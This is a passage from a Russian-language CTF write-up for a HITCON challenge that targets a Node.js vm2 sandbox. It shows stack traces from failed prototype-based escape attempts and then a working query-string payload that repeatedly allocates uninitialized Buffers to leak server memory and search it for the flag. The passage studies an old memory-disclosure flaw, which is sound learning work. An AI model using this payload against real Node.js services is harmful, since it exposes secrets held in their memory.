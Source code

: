 Но получаем что-то подобие:

```
/root/HITCON/node_modules/vm2/lib/main.js:125
			throw this._internal.Decontextify.value(e);
			^
TypeError: Cannot read property 'constructor' of null
    at getParent (vm.js:3:17)
    at vm.js:19:27
    at vm.js:20:7
    at ContextifyScript.Script.runInContext (vm.js:35:29)
    at VM.run (/root/HITCON/node_modules/vm2/lib/main.js:119:52)
    at Object.<anonymous> (/root/HITCON/exploit.js:7:4)
    at Module._compile (module.js:556:32)
    at Object.Module._extensions..js (module.js:565:10)
    at Module.load (module.js:473:32)
    at tryModuleLoad (module.js:432:12)
```

и

```
/root/HITCON/node_modules/vm2/lib/main.js:125
			throw this._internal.Decontextify.value(e);
			^
TypeError: Cannot read property '__proto__' of null
    at getParent (vm.js:7:17)
    at vm.js:23:27
    at vm.js:24:7
    at ContextifyScript.Script.runInContext (vm.js:35:29)
    at VM.run (/root/HITCON/node_modules/vm2/lib/main.js:119:52)
    at Object.<anonymous> (/root/HITCON/exploit.js:7:4)
    at Module._compile (module.js:556:32)
    at Object.Module._extensions..js (module.js:565:10)
    at Module.load (module.js:473:32)
    at tryModuleLoad (module.js:432:12)
```

В общем не получается обойти сэндбокс такмими методами, так как версия VM2 уже пропатчена. Тогда нужно искать дальше. В итоге, после некоторого гугления, натыкаемся на ссылки:

* https://github.com/nodejs/node/issues/4660
* https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md

Получается что Buffer в Node.js ликает информацию, по такому же принципу, как HeartBleed. А все из-за того, что в результате создания нового объекта Buffer в Node.js, память выделяемая под него, не обнуляется и не заполняется нулями, чтобы исключить выдачу информации, которая ранее содержалась в этой области памяти. Таким образом можно попытаться какое-то кол-во раз выделять буфер, одного и того же размера и при этом смотреть наличие в нем строки `hitcon{`  это начало флага, для этого CTF.

Отправляем следующий запрос в браузере:

```javascript
localhost:3000/?data[]=for (var step = 0; step < 100000; step++) {var buf = (new Buffer(1024)).toString('ascii');if (buf.indexOf("hitcon{") !== -1) {break;}}buf;
```
